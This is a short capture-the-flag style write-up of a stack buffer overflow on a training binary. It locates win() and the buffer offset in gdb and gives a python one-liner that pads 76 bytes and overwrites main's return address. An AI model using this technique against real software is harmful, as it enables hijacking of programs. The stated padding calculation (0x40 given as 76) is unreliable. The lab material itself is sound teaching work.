



This stack is pretty the same as 0. We need overwrite return address if the function `main` with `win()` address

Win function address:

Now we need to explore the main return address in stack. We need to set the breakpoint at the "leave" address, after we call `x/2x $ebp` to see 2 values: the first value points where we are, the second one points to next "jump" in memory. Also that "next" memory value stores in the esp stack, what gives us the opportunity to calculate the padding from buffer beginning to "next" return address, so we cann overwrite it.

So:
* Buffer start address in stack = `0xbffffc20`
* Next memory address = `0xbffffc60`
* Padding = `0xbffffc60 - 0xbffffc20` = 76
* "win" function address = `0x080483f4`
* Input = `A * 76 + 0xf4830408 (little endian)` = `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�`
2 last characters is not able to convert to utf-8, so it just unknown chars (basically it's just hex values). So you must write the python script and place the output into the file. The script is: `python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" > stack4.txt`

Run the program:

